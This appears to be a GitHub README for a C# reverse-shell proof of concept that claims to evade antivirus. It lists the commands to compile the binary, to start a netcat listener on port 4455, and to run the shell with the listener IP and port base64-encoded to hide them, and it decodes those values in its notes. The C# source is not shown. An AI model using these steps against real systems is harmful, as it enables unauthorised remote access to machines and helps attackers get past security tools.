 # C# Reverse Shell AV Evasion POC

## Compile

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe shell.cs`


## Start the Listener

`nc -nvlp 4455`


## Execute the Binary

`shell.exe MTkyLjE2OC41LjU= NDQ1NQ==`


## Notes

- **Base64 encoded listener IP**: `MTkyLjE2OC41LjU=` → `192.168.5.5`
- **Base64 encoded listening port**: `NDQ1NQ==` → `4455`
